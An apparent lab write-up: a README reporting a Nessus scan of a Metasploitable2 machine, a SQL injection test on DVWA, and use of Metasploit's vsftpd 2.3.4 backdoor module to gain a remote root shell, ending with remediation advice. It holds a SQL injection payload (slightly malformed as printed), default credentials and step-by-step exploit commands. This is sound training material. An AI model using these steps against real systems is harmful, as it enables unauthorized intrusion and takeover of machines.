


# Vulnerability Assessment and Exploitation Lab  
### Nessus • DVWA • Metasploit
---

# Executive Summary

This project demonstrates a vulnerability assessment and exploitation workflow conducted in a controlled lab environment. The objective was to identify security weaknesses on a vulnerable system, analyze discovered vulnerabilities, and demonstrate exploitation of a critical service vulnerability.

The target system used in this lab was **Metasploitable2**, a purposely vulnerable Linux virtual machine designed for penetration testing practice. The assessment was performed from a **Kali Linux** attacker machine using **Nessus** for vulnerability scanning and the **Metasploit Framework** for exploitation.

The vulnerability scan identified **72 vulnerabilities** across several services including FTP, HTTP, Telnet, and MySQL. One of the critical findings was a known backdoor vulnerability in the **vsftpd 2.3.4 FTP service**, which was later successfully exploited using Metasploit to gain remote shell access.

Additionally, the **Damn Vulnerable Web Application (DVWA)** hosted on the target server was tested and confirmed to be vulnerable to **SQL Injection**.


---

# Lab Environment

| Component | Purpose |
|----------|---------|
| Kali Linux | Attacker machine |
| Metasploitable2 | Vulnerable target system |
| pfSense | Firewall |
| Nessus | Vulnerability scanner |
| DVWA | Vulnerable web application |
| Metasploit Framework | Exploitation tool |

Target system IP address:

```
192.168.10.16
```

---

# Web Application Testing

## Accessing DVWA

The Damn Vulnerable Web Application (DVWA) hosted on the Metasploitable2 server was accessed through a web browser on Kali Linux.

Application URL:

```
http://192.168.10.16/dvwa
```

Default login credentials:

```
Username: admin
Password: password
```

After logging in, the security level was configured to **Low** to allow vulnerability testing.

---

## SQL Injection

The SQL Injection module in DVWA was used to test the application for input validation weaknesses.

Test payload:

```
1' OR '1 == 
```

This payload alters the SQL query logic by forcing the condition to always evaluate as true.

Example vulnerable query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

Because the application does not sanitize user input, the SQL query returns all database records.

---

## SQL Injection Result

The application returned multiple database entries including:

```
admin
gordon
bob
pablo
smith
```

This confirms that the web application is vulnerable to SQL injection.



---

# Vulnerability Scanning

## Nessus Scan

A vulnerability scan was conducted using **Nessus**, a widely used commercial vulnerability assessment tool.

The scanner analyzed the target system for known vulnerabilities by inspecting open services, configurations, and software versions.

Nessus web interface:

```
https://localhost:8834
```

---

## Scan Configuration

Target configured in Nessus:

```
Target Name: DVWA
Target IP: 192.168.10.16
```

Scan template used:

```
Basic Network Scan
```

The scan was launched against the target machine and allowed to complete.

## Scan Results

The Nessus scan identified approximately **72 vulnerabilities** across the system.

Severity breakdown:

| Severity | Count |
|--------|-------|
| Critical | 11 |
| High | 7 |
| Medium | 25 |
| Low | 9 |
| Informational | Several |

Many of the detected vulnerabilities were related to:

- Outdated services
- Weak configurations
- Insecure protocols
- Known exploitable software versions



---

## Critical Vulnerability Identified

One of the most critical findings reported by Nessus was:

```
vsftpd 2.3.4 Backdoor Command Execution
```

Details:

| Service | FTP |
|-------|------|
| Port | 21 |
| Software | vsftpd 2.3.4 |
| Severity | Critical |

This vulnerability allows attackers to gain remote shell access through a malicious backdoor embedded in the vulnerable version of vsftpd.

---

# Exploitation

## Metasploit Framework

The **Metasploit Framework** was used to exploit the vsftpd vulnerability identified during the Nessus scan.

Metasploit was used to validate this vulnerability.


```bash
msfconsole
```

Search for the exploit module:

```bash
search exploit vsftpd
```

Result:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

## Exploit Configuration

Load the exploit payload:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Set the target host:

```bash
set RHOSTS 192.168.10.16
```

Execute the exploit:

```bash
exploit
```

---

## Successful Exploitation

The exploit successfully opened a command shell session on the target system.

Example output:

```
Command shell session 1 opened
```

Verification command:

```bash
whoami
```

Output:

```
root
```

This confirms that the attacker obtained **remote root access** to the target system.


---

# Findings

| ID | Vulnerability | Impact |
|----|--------------|--------|
| F1 | SQL Injection in DVWA | Unauthorized database access |
| F2 | vsftpd 2.3.4 Backdoor | Remote root system compromise |
| F3 | Telnet Service Enabled | Unencrypted remote access |
| F4 | Multiple Outdated Services | Increased attack surface |
| F5 | 72 vulnerabilities detected by Nessus | Multiple potential exploitation paths |

---

# Remediation

To mitigate the identified vulnerabilities, the following actions are recommended:

### Service Hardening

- Remove or upgrade outdated services such as **vsftpd 2.3.4**
- Disable unnecessary services including **Telnet**
- Replace FTP with **secure alternatives such as SFTP**

### Web Application Security

To prevent SQL injection vulnerabilities:

- Implement **input validation**
- Use **prepared statements**
- Use **parameterized SQL queries**
- Deploy a **Web Application Firewall (WAF)**

### Patch Management

- Regularly update system software
- Apply security patches promptly
- Perform routine vulnerability scans

### Network Security Controls

- Restrict service access using firewall rules
- Limit exposure of unnecessary services
- Implement intrusion detection and monitoring

---

# Conclusion

This project demonstrates a typical vulnerability assessment and exploitation workflow used in penetration testing. Using **Nessus**, several vulnerabilities were identified on the target system, including a critical backdoor vulnerability in the vsftpd FTP service.

The vulnerability was successfully exploited using the **Metasploit Framework**, resulting in remote root access to the system. Additionally, testing of the DVWA web application confirmed the presence of a **SQL Injection vulnerability**, highlighting the risks of improper input validation in web applications.

The lab emphasizes the importance of vulnerability scanning, secure configuration, and timely patch management in preventing system compromise.
